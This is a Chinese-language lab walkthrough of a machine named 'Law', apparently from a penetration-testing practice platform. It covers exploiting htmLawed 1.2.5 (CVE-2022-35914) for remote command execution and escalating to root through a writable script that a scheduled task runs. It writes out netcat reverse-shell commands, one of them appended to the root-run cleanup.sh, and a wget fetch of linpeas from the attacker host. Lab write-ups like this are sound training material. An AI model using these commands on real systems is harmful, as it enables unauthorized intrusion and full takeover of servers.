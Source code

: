 ```yaml
---
description: 中等 / htmlawed 1.2.5 / CVE-2022-35914 / 远程命令执行 / 计划任务提权
---
```


# ✔️ Law

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA law 192.168.210.190 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现正在运行的服务及其版本号为：htmlawed 1.2.5

<figure><img src="../../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索htmlawed 1.2.5相关已知公开漏洞，发现一个远程命令执行漏洞：

<figure><img src="../../.gitbook/assets/3 (24).png" alt=""><figcaption></figcaption></figure>

* 得知htmlawed 1.2.5版本存在着CVE-2022-35914的漏洞，该漏洞说明了htmlawed是属于GLPI软件中的一个第三方库，其中包含了一个可用于执行系统命令的测试文件的默认路径：**vendor/htmlawed/htmlawed/htmLawedTest.php**，这意味着我们可以未经身份验证就能执行远程代码执行：

<figure><img src="../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 直接访问该路径失败，没找到这个页面：

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

* 同时找到了适用于CVE-2022-35914的PoC，但利用没有成功：

<figure><img src="../../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

* 分别使用dirsearch和gobuster没有扫出来任何文件/目录，推测目标系统中没有这个路径，因此尝试修改脚本中的默认路径为根目录：

<figure><img src="../../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (3).png" alt=""><figcaption></figcaption></figure>

* 此时发现脚本可以成功执行：

<figure><img src="../../.gitbook/assets/11 (3).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据利用脚本的帮助信息，可以指定执行的命令，因此直接指定反弹shell：

```bash
python3 CVE-2022-35914.py -u http://192.168.228.190 -c 'nc -e /bin/sh 192.168.45.161 4444'
```

<figure><img src="../../.gitbook/assets/12 (3).png" alt=""><figcaption></figcaption></figure>

* 本机做好监听，即可获得回连的shell：

<figure><img src="../../.gitbook/assets/13 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (3).png" alt=""><figcaption></figcaption></figure>

```bash
# 升级shell
find / -name python*
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 权限提升

### 本地信息收集

* 简单的手动枚举没有什么能利用的，决定上传linpeas进行本地信息收集，当前所在的/var/www/目录没有写入权限，所以要切换到/tmp目录下：

```bash
# 在Kali本机linpeas.sh脚本所在的目录下开启服务器
python3 -m http.server 8888
# 在目标系统的/tmp目录下获取脚本文件
wget http://192.168.45.161:8888/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15 (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/17 (20).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh脚本后，虽然没有找到可以直接利用的凭证信息，但是也发现了以下两处都出现了/var/www/目录下的<mark style="color:red;">**cleanup.sh文件**</mark>：

<figure><img src="../../.gitbook/assets/18 (3).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着以下文件可以由非root用户创建和修改：

<figure><img src="../../.gitbook/assets/19 (3).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着当前的用户权限对以下文件是有写入权限的：

<figure><img src="../../.gitbook/assets/20 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 回到/var/www/目录下，查看cleanup.sh文件内容，发现是一个用于删除log日志的脚本文件，大概率和计划任务有关联：

<figure><img src="../../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

* 查看计划任务：

<figure><img src="../../.gitbook/assets/22 (1).png" alt=""><figcaption></figcaption></figure>

* 在linpeas的输出信息中发现设置了一个用于定时清理的计时器：phpsessionclean.timer

<figure><img src="../../.gitbook/assets/23 (1).png" alt=""><figcaption></figcaption></figure>

* 在阅读/cron.d目录中的php文件内容时，里面也设置了每第9分钟和第39分钟的时候以root身份运行一次sessionclean文件：

<figure><img src="../../.gitbook/assets/24 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 由此，当我们可以以低权限账户来修改cleanup.sh的内容时，直接写入反弹shell的命令，然后等待计划任务自动执行，即可获取到shell：

```bash
echo 'nc -e /bin/bash 192.168.45.161 9999' >> cleanup.sh
```

<figure><img src="../../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali本机做好监听，等待即可：

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例get shell阶段当找不到漏洞利用的默认路径时，以为掉进了“兔子洞”，心态有点崩，但是因为该机器开放端口只有两个，在没有任何有效凭证的情况下，只有80端口是切入点，因此只要冷静下来尝试多修改几次脚本中的URI，就能利用成功。

利用计划任务进行提权的本质是，找到目标系统中可以让低权限账户修改的脚本，并且该脚本会由高权限账户定期执行，此时只需要写入自定义的操作，等待其定期执行即可。
{% endhint %}

